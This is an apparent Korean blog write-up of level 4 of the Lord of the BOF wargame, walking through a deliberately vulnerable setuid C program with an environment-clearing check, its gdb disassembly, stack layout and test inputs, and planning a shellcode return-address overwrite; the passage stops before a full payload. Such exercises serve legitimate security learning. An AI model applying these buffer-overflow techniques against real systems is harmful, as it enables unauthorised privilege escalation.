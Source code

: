 ```yaml
---
title: LOB 4번 Write-up
date: 2017-9-9 9:35:00
categories: LOB
tags: LOB, goblin, orc, egghunter
---
```


## LOB 4번

    [goblin@localhost goblin]$ bash2
    [goblin@localhost goblin]$ ls -l
    total 20
    -rwsr-sr-x    1 orc      orc         12567 Feb 26  2010 orc
    -rw-r--r--    1 root     root          505 Mar 29  2010 orc.c
    [goblin@localhost goblin]$ cat orc.c
    /*
            The Lord of the BOF : The Fellowship of the BOF
            - orc
            - egghunter
    */
    
    #include <stdio.h>
    #include <stdlib.h>
    
    extern char **environ;
    
    main(int argc, char *argv[])
    {
            char buffer[40];
            int i;
    
            if(argc < 2){
                    printf("argv error\n");
                    exit(0);
            }
    
            // egghunter
            for(i=0; environ[i]; i++)
                    memset(environ[i], 0, strlen(environ[i]));
    
            if(argv[1][47] != '\xbf')
            {
                    printf("stack is still your friend.\n");
                    exit(0);
            }
    
            strcpy(buffer, argv[1]);
            printf("%s\n", buffer);
    }

###  제약사항
EggHunter란 메모리에서 egg, 즉 특정한 값을 찾는 코드라고 생각하면 된다.
첫줄에 있는 `extern char **environ`은 환경변수에 대한 리스트 포인터이며 바로 뒤에 나오는 `//egghunter`에서 for문을 돌리면서 NULL값이 나올 때까지 값을 모두 0으로 덮어씌운다. 따라서 환경변수를 사용할 수 없는 것이다.

또한 `argv[1][47] != '\xbf'`이 부분에서 전달받은 인자값의 48번째 값이 \xbf가 아닐 경우 프로그램을 끊어 버리므로 덮어쓸때 \xbf로 입력해 주어야 한다.

    [goblin@localhost goblin]$ cp orc orc1
    [goblin@localhost goblin]$ ls
    orc  orc.c  orc1
    [goblin@localhost goblin]$ gdb orc1
    GNU gdb 19991004
    Copyright 1998 Free Software Foundation, Inc.
    GDB is free software, covered by the GNU General Public License, and you are
    welcome to change it and/or distribute copies of it under certain conditions.
    Type "show copying" to see the conditions.
    There is absolutely no warranty for GDB.  Type "show warranty" for details.
    This GDB was configured as "i386-redhat-linux"...
    (gdb) disass main
    Dump of assembler code for function main:
    0x8048500 <main>:       push   %ebp
    0x8048501 <main+1>:     mov    %esp,%ebp
    0x8048503 <main+3>:     sub    $0x2c,%esp
    0x8048506 <main+6>:     cmpl   $0x1,0x8(%ebp)
    0x804850a <main+10>:    jg     0x8048523 <main+35>
    0x804850c <main+12>:    push   $0x8048630
    0x8048511 <main+17>:    call   0x8048410 <printf>
    0x8048516 <main+22>:    add    $0x4,%esp
    0x8048519 <main+25>:    push   $0x0
    0x804851b <main+27>:    call   0x8048420 <exit>
    0x8048520 <main+32>:    add    $0x4,%esp
    0x8048523 <main+35>:    nop
    0x8048524 <main+36>:    movl   $0x0,0xffffffd4(%ebp)
    0x804852b <main+43>:    nop
    0x804852c <main+44>:    lea    0x0(%esi,1),%esi
    0x8048530 <main+48>:    mov    0xffffffd4(%ebp),%eax
    0x8048533 <main+51>:    lea    0x0(,%eax,4),%edx
    0x804853a <main+58>:    mov    0x8049750,%eax
    0x804853f <main+63>:    cmpl   $0x0,(%eax,%edx,1)
    0x8048543 <main+67>:    jne    0x8048547 <main+71>
    0x8048545 <main+69>:    jmp    0x8048587 <main+135>
    0x8048547 <main+71>:    mov    0xffffffd4(%ebp),%eax

40바이트의 버퍼와 4바이트의 정수형 변수를 확보하므로 gdb에서 확인할 수 있듯이 0x2c, 즉 44바이트를 확보하고 있다.
따라서 메모리구조는 아래와 같다.

|buffer(40byte)|i(4byte)|SFP(4byte)|RET(4byte)|

    [goblin@localhost goblin]$ ./orc `python -c 'print "\x90" * 50'`
    stack is still your friend.
    [goblin@localhost goblin]$ ./orc `python -c 'print "\x90"*47 + "\xbf"'`
    ¿
    Segmentation fault

이처럼 `argv[1][47]`, 즉 48번째 값이 `\xbf`가 되어야만 Segmentation Fault가 나온다. 그런데 \xbf는 레드햇에서 스택의 시작 주소이다. 따라서 buffer에 쉘코드를 문자열로 넘겨준 후 RET값을 버퍼의 시작 주소로 바꿔주면 buffer에 있는 코드가 실행되는 것이다.

        printf("%p\n",buffer);

이 한줄의 코드는 buffer의 메모리 주소를 출력해주는 코드로, orc.c의 끝부분에 넣어주면 된다.
